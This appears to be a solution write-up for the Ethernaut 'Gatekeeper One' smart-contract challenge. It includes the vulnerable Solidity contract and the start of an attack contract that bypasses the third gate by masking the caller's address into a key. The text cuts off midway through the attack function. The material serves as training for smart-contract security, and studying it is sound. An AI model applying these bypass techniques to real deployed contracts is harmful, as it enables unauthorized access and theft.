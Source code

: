 

# 13. [Challenge 13: Gatekeeper One](https://ethernaut.openzeppelin.com/level/0x9b261b23cE149422DE75907C6ac0C30cEc4e652A)

Tasks:
- Make it past the gatekeeper and register as an entrant to pass this level.

Helpful Resources:
- [Solution Video](https://www.youtube.com/watch?v=TH3ZeWcISmY)
- [Gatekeeper One Solution](https://cyanwingsbird.blog/solidity/ethernaut/13-gatekeeper-one/)

**Solution:** \
Attack Payload:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts-ethereum-package/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract AreYouTheKeymaster{
    using SafeMath for uint256;
    bytes8 txOrigin16 = 0x25E73b3f79C43564; //0x3FcB875f56beddC4; //last 16 digits of your account
    bytes8 public key = txOrigin16 & 0xFFFFFFFF0000FFFF; 
    GatekeeperOne public gkpOne;

 
    constructor(address _addr) public{
        gkpOne = GatekeeperOne(_addr);
    }

    function letMeIn() public{
```